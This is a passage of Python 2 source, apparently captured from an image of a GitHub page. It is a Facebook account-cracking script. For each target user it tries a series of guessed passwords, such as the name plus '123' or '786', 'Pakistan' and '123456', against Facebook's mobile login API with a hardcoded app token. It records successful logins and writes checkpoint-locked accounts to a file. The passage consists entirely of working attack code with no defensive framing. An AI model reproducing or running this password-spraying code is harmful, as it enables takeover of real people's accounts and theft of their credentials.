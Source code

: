 						print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print "[Checkpoint] " + user + " | " + pass2
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = c + "123"
							data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if "access_token" in q:
								print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
								oks.append(user+pass3)
							else:
								if "www.facebook.com" in q["error_msg"]:
									print "[Checkpoint] " + user + " | " + pass3
									cps = open("checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = "Pakistan"
									data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if "access_token" in q:
										print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
										oks.append(user+pass4)
									else:
										if "www.facebook.com" in q["error_msg"]:
											print "[Checkpoint] " + user + " | " + pass4
											cps = open("checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											pass5 = c + "786"
											data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if "access_token" in q:
												print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5
												oks.append(user+pass5)
											else:
												if "www.facebook.com" in q["error_msg"]:
													print "[Checkpoint] " + user + " | " + pass5
													cps = open("checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else:
													pass6 = "123456"
													data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if "access_token" in q: